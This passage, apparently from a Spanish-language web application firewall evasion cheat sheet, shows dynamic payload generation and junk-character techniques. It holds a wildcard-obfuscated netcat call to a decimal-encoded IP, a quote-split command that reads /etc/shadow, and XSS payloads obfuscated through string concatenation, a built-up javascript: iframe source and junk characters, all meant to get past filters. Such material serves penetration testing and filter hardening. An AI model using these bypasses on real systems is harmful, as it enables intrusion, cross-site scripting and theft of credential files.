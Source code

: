 > /???/n? 2130706433 443

**Caracteres usados:**

> / ? n [0-9]

### 9. Técnica de generación de carga útil dinámica

Los lenguajes de programación tienen diferentes patrones y sintaxis para la concatenación. Esto nos permite generar cargas útiles que pueden eludir muchos filtros y reglas.

**Solicitud básica:**

```bash
<script>confirm()</script>
```

**Ofuscar carga útil:**

```bash
<script>eval('con'+'fi'+'rm()')</script>
```

**Solicitud básica:**

> /bin/cat /etc/shadow

**Ofuscar carga útil:**

> /bi'n'''/c''at' /e'tc'/sh''ad'ow

Bash permite la concatenación de rutas para su ejecución.

**Solicitud básica:**

```bash
<iframe/onload='this["src"]="javascript:confirm()"';>
```

**Ofuscar carga útil**

```bash
<iframe/onload='this["src"]="jav"+"as&Tab;cr"+"ipt:con"+"fir"+"m()"';>
```

### 10. Técnica de personajes basura

WAF filtra fácilmente las cargas útiles simples. Agregar algunos caracteres basura ayuda a evitar la detección (solo en casos específicos). Esta técnica a menudo ayuda a confundir los firewalls basados ​​en expresiones regulares.

**Solicitud básica:**

```bash
<script>confirm()</script>
```

**Ofuscar carga útil:**

```bash
<script>+-+-1-+-+confirm()</script>
```
